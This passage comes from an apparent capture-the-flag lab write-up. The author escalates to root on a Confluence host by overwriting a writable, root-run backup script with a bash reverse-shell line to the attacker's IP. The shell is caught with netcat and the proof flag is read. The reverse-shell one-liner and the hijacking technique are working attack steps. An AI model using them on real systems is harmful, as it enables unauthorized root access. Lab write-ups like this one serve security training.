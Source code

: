 But we can write to it and make it interesting!

```
$ ls -la
total 756692
drwxr-xr-x  3 root       root            4096 Dec 12 11:01 .
drwxr-xr-x 19 root       root            4096 Dec 12 09:45 ..
drwxr-xr-x  3 root       root            4096 Dec 12 10:13 atlassian
-rwxr-xr-x  1 root       root       774829955 Dec 12 10:05 atlassian-confluence-7.13.6-x64.bin
-rwxr-xr-x  1 confluence confluence       408 Dec 12 11:01 log-backup.sh
```

I write the file line by line and exit the session.

```
confluence@flu:/opt$ echo '#!/bin/bash' > log-backup.sh
echo '#!/bin/bash' > log-backup.sh
confluence@flu:/opt$ echo 'bash -i >& /dev/tcp/192.168.45.172/8090 0>&1' >> log-backup.sh
</dev/tcp/192.168.45.172/8090 0>&1' >> log-backup.sh
confluence@flu:/opt$ cat log-backup.sh
cat log-backup.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.172/8090 0>&1
confluence@flu:/opt$ ^C
```

I restart my local listener on the same port again and wait...

Pretty quickly we get a shell as `root`!

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ nc -lnvp 8090
listening on [any] 8090 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.41] 53816
bash: cannot set terminal process group (25622): Inappropriate ioctl for device
bash: no job control in this shell
root@flu:~# whoami
whoami
root
```

And we find our flag where we expect to find it:

```
root@flu:~# cat /root/proof.txt
cat /root/proof.txt
4896befc9ccc8543b8a8c523857e897d
```

Look at that! We didn't even need to ever figure out what was running on port 8091!